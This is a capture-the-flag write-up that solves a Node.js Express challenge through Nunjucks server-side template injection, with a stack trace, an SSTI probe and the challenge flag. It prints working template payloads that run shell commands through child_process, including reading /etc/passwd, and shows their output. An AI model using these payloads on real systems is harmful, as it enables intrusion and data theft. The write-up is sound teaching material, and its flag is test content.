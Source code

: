 # Hey h3ck3r!

Description: May I know your name?
Author: [Av4nth1ka](https://twitter.com/AvanthikaAnand1?t=U4sSUyEOg7VPPZ_0S6LybQ&s=09)

Solution:

So, this is a very basic Node Server-Side Template Injection challenge.

First we get a page with a field to enter our username.

So, if we enter any name in the username field we get a message as “Hello <your-name>”.

So, we can see that whatever contents we give in the field will be displayed along with Hello.

So, a thing which we can try in such cases is SSTI.

Lets try a basic payload: {{2*2}}

Yes!! We can confirm that this page is vulnerable to SSTI from the above case. Looking at the response headers, we can see there is a header as **`x-powered-by:** Express`

So, we know that Express is a node-js web application framework. So this a node SSTI vulnerability. Next we need to find which template this application is using in order to craft payload.

There is a number of templates in Nodejs. Lets try with a payload of any template.

I got an error like this:

Template render error: (unknown path) [Line 6, Column 23]
  unexpected token: :
    at Object._prettifyError (/node_modules/nunjucks/src/lib.js:36:11)
    at Template.render (/node_modules/nunjucks/src/environment.js:538:21)
    at Environment.renderString (/node_modules/nunjucks/src/environment.js:380:17)
    at Object.renderString (/node_modules/nunjucks/index.js:99:14)
    at getHTML (/home/index.js:18:21)
    at app.post (/home/index.js:27:16)
    at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)
    at next (/node_modules/express/lib/router/route.js:144:13)
    at Route.dispatch (/node_modules/express/lib/router/route.js:114:3)
    at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)

There was an error in rendering the template. Also we can see something called `nunjucks`. When we search for it, we can see that it a template in node-js vulnerable to SSTI.

Read more about nunjucks: 

Lets try using the following payload to dump the data in /etc/passwd.

payload:  `{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat /etc/passwd')")()}}`

We get the following output:
Hello root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false node:x:1000:1000::/home/node:/bin/bash

So, yeah our payload works now! Lets try to dump the files in the current directory, Now we need to find where the flag is located.

payload: `{{range.constructor("return global.process.mainModule.require('child_process').execSync('ls')")()}}`

So, we got the files in the current directory.

`Dockerfile flag index.js node package-lock.json package.json`

Lets try to print the contents in the flag file.

payload: `{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat flag')")()}}`

So we got the flag!!

Flag: `shaktictf{ohh!!!_nuunjucksssss_ssti}`